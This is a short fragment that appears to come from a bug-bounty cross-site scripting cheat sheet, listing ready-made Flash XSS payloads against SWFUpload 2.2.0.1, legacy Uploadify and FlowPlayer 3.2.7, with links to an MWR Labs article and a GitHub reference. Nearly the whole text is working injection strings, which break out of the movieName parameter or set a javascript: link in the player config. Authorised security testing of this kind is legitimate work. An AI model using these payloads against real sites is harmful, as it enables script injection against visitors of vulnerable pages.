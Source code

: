    - SWFUpload 2.2.0.1: `swfupload.swf?movieName="]);}catch(e){}if(!self.a)self.a=!confirm(1);//`

   - Uploadify (legacy): `uploadify.swf?movieName=%22])}catch(e){if(!window.x){window.x=1;confirm(%27XSS%27)}}//&.swf`

   - FlowPlayer 3.2.7: `flowplayer-3.2.7.swf?config={"clip":{"url":"http://edge.flowplayer.org/bauhaus.mp4","linkUrl":"JavaScriPt:confirm(document.domain)"}}&.swf`

_Note: Useful reference on constructing Flash-based XSS payloads available at [MWR Labs](https://labs.mwrinfosecurity.com/blog/popping-alert1-in-flash/)._

     
## Reference:
   - https://github.com/Auxirie/AllAboutBugBounty/blob/master/Cross%20Site%20Scripting.md
